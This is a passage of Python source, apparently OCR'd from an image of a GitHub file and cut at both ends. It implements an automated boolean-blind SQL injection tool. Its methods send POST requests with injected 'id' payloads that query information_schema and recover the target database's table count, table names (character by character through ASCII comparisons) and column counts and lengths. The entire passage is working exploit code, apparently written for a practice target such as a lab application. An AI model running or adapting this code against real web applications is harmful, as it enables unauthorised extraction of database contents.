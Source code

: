 ```python
            print("\ncan not get the table_num")           
    def get_table_length(self):
        for i in range(1,50):
            self.process('get_table_length',i,50)
            data = {
                'id':"1 and (select length(group_concat(table_name)) as a from information_schema.tables where table_schema=database() having a={0})".format(str(i)),
                'Submit':'Submit',
            }
            html = self.s.post(self.url,data=data,headers=self.headers).text
            if self.check(html):
                self.table_length.append(i)
                break
        if self.table_length[0] > 0:
            print('\n==>',self.table_length)
        else:
            print('\ncan not get the table_length')
    def get_table_name(self):
        name = ''
        for i in range(1,self.table_length[0]+1):
            for j in self.zifuji:
                self.process('{0} get_table_name'.format(i),j,50)
                data = {
                    'id':"1 and (select ascii(substring(group_concat(table_name),{0},1)) as a from information_schema.tables where table_schema=database() having a={1})".format(str(i),str(j)),
                    'Submit':'Submit',
                }
                html = self.s.post(self.url,data=data,headers=self.headers).text
                if self.check(html):
                    name += chr(j)
                    break
            if len(name) != i:
                name += '|'
        if len(name) > 0:
            print('\n==>',name)
            self.table_name.append(name)
        else:
            print('\ncan not get the table_name')
    def get_column_num(self,table_name):
        self.column_num = 0
        table_name = self.tranhex(table_name)
        print(table_name)
        for i in range(1,30):
            self.process('get_column_num',i,30)
            data = {
                'id':"1 and (select count(column_name) as a from information_schema.columns where table_schema=database() and table_name={0} having a={1})".format(table_name,str(i)),
                'Submit':'Submit',
            }
            html = self.s.post(self.url,data=data,headers=self.headers).text
            if self.check(html):
                self.column_num = i
                break
        if self.column_num > 0:
            print('\n==>',self.column_num)
    def get_column_length(self,table_name):
        table_name = self.tranhex(table_name)
        for i in range(1,100):
            self.process('get_column_length',i,100)
            data = {
                'id':"1 and (select length(group_concat(column_name)) as a from information_schema.columns where table_schema=database() and table_name={0} having a={1})".format(table_name,str(i)),
                'Submit':'Submit',
```